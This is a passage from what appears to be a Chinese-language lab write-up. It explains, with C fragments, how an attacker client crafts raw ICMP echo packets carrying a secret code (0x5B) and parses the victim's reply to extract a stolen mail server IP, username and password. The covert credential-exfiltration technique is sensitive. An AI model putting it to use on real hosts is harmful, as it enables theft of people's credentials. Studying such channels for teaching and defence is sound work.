   可以看到`sockaddr_in`中不仅有IP地址，还有一些像协议族之类的信息，如果要取IP地址，需要用`结构体变量.sin_addr`。

  ```c
  struct  in_addr {
  	unsigned  long  s_addr;
  };
  ```

  而`in_addr`中仅含IP地址。

  构造包时定义了四个地址类型，其中受害者的IP和攻击者的IP都是在运行代码时需要用户手动输入的，如下代码解释：

  ```c
      /* 源地址：不仅有攻击者的IP地址 */
      struct sockaddr_in src;
      /* 目的地址：包含受害者的IP；这里IP地址需要接收命令行输入的第一个参数*/
      struct sockaddr_in addr;
      /* in_addr是sockaddr_in中的一部分，其中仅含IP地址变量；sockaddr_in*/
      struct in_addr my_addr;  //仅是攻击者IP地址；这里需要接收命令行输入的第二个参数
      /* 仅含受害者访问的邮箱服务器的地址*/
      struct in_addr serv_addr;
  ```

  计算`sockaddr_in`类型结构体的大小。

  （3）构造IP头部数据。

  **注意这里要定义IP包的总长度，要把ICMP的数据部分的大小设置为至少36字节，防止被受害者过滤掉。**所以IP包的总长度为**>=64：20字节IP头部+8字节ICMP头部+36字节数据部分大小。**这里设置为84字节。

  ```c
  iphead->ip_len = 84;
  ```

  （4）构造ICMP头部数据。

  **注意这里要将type字段设置为ICMP_ECHO，将code字段设置为0x5B。0x5B就是攻击者和受害者协商的暗号。**

  ICMP的校验和需要计算头部和数据部分，这里为**8+36=44字节**。

  ```c
  icmphead->icmp_cksum = checksum(44, (unsigned short *)icmphead);
  ```

  （5）构造套接字进行发包和收包。

  ```c
  sendto(icmp_sock, dgram, 84, 0, (struct sockaddr *)&addr, sizeof(struct sockaddr)
  ```

  ```c
  recvfrom(icmp_sock, recvbuff, 256, 0, (struct sockaddr *)&src, &src_addr_size) < 0)
  ```

  （6）对回复的数据包进行处理，取出服务器IP，用户名和密码数据。

  取得IP头部，跳20字节得到ICMP头部，跳8字节到达ICMP数据部分，**数据部分的前4个字节是服务器的IP地址，将其复制到前边定义的in_addr    serv_addr中。**

  ```c
  memcpy(&serv_addr, ((char *)icmphead + 8), sizeof (struct in_addr)); 
  ```
